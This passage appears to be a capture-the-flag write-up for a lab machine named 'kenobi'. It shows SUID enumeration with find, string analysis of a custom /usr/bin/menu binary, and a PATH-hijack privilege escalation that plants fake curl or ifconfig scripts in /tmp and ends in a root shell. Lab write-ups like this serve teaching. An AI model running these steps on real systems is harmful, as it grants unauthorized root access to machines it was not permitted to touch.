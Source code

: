 ##### Enumerate SUID files
` find / -perm -u=s -type f 2>/dev/null`

There is particular binary that sticks out, `/usr/bin/menu`
When we run the bin, we have 3 options:
```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Thu, 30 Sep 2021 00:09:31 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html

```
By doing a little bit of basic static analysis using the `strings` command, we can dump the readable strings from the binary.
`strings /usr/bin/menu`:
```
. . .
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
Invalid choice
. . .

```

We can see the commands running and abuse the fact that there is no absolute path (full path) given and that it is a suid program:
```
cd /tmp/
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```
We can also do the same with ifconfig, which is what I chose to do:
```
kenobi@kenobi:/tmp$ echo /bin/bash > ifconfig
kenobi@kenobi:/tmp$ chmod +x ifconfig
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# whoami
root
```